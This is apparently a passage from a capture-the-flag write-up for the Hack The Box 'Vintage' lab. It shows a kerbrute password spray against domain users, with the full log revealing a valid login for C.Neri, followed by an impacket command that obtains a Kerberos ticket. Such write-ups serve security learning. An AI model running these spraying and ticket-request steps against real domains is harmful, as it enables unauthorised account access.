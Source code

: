 ```

Available Commands:
  bruteforce    Bruteforce username:password combos, from a file or stdin
  bruteuser     Bruteforce a single user's password from a wordlist
  help          Help about any command
  passwordspray Test a single password against a list of users
  userenum      Enumerate valid domain usernames via Kerberos
  version       Display version info and quit

Flags:
      --dc string       The location of the Domain Controller (KDC) to target. If blank, will lookup via DNS
      --delay int       Delay in millisecond between each attempt. Will always use single thread if set
  -d, --domain string   The full domain to use (e.g. contoso.com)
  -h, --help            help for kerbrute
  -o, --output string   File to write logs to. Optional.
      --safe            Safe mode. Will abort if any user comes back as locked out. Default: FALSE
  -t, --threads int     Threads to use (default 10)
  -v, --verbose         Log failures and errors

Use "kerbrute [command] --help" for more information about a command.
┌─[au-vip-1]─[10.10.14.2]─[zzac@htb-xng4pqphqw]─[~]
└──╼ [★]$ kerbrute --dc vintage.htb -d vintage.htb -v passwordspray usernames.txt Zer0the0ne

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 04/25/25 - Ronnie Flathers @ropnop

2025/04/25 05:14:42 >  Using KDC(s):
2025/04/25 05:14:42 >  	vintage.htb:88

2025/04/25 05:14:42 >  [!] krbtgt@vintage.htb:Zer0the0ne - USER LOCKED OUT
2025/04/25 05:14:42 >  [!] Guest@vintage.htb:Zer0the0ne - USER LOCKED OUT
2025/04/25 05:14:43 >  [!] DC01$@vintage.htb:Zer0the0ne - Invalid password
2025/04/25 05:14:43 >  [!] Administrator@vintage.htb:Zer0the0ne - Invalid password
2025/04/25 05:14:43 >  [!] R.Verdi@vintage.htb:Zer0the0ne - Invalid password
2025/04/25 05:14:43 >  [!] FS01$@vintage.htb:Zer0the0ne - Invalid password
2025/04/25 05:14:43 >  [!] L.Bianchi@vintage.htb:Zer0the0ne - Invalid password
2025/04/25 05:14:43 >  [!] gMSA01$@vintage.htb:Zer0the0ne - Invalid password
2025/04/25 05:14:43 >  [!] G.Viola@vintage.htb:Zer0the0ne - Invalid password
2025/04/25 05:14:43 >  [!] M.Rossi@vintage.htb:Zer0the0ne - Invalid password
2025/04/25 05:14:43 >  [!] svc_sql@vintage.htb:Zer0the0ne - USER LOCKED OUT
2025/04/25 05:14:43 >  [!] P.Rosa@vintage.htb:Zer0the0ne - Invalid password
2025/04/25 05:14:43 >  [!] C.Neri_adm@vintage.htb:Zer0the0ne - Invalid password
2025/04/25 05:14:43 >  [!] L.Bianchi_adm@vintage.htb:Zer0the0ne - Invalid password
2025/04/25 05:14:43 >  [+] VALID LOGIN:	 C.Neri@vintage.htb:Zer0the0ne
2025/04/25 05:14:43 >  [!] svc_ldap@vintage.htb:Zer0the0ne - Got AS-REP (no pre-auth) but couldn't decrypt - bad password
2025/04/25 05:14:43 >  [!] svc_ark@vintage.htb:Zer0the0ne - Got AS-REP (no pre-auth) but couldn't decrypt - bad password
```
Account C.Neri@vintage.htb Use password `Zer0the0ne`Successfully logged in
![[VINTAGE BLOODHOUND5.png]]
Get creds for this account 
```
impacket-getTGT vintage.htb/c.neri:Zer0the0ne -dc-ip vintage.htb 

[*] Saving ticket in c.neri.ccache
```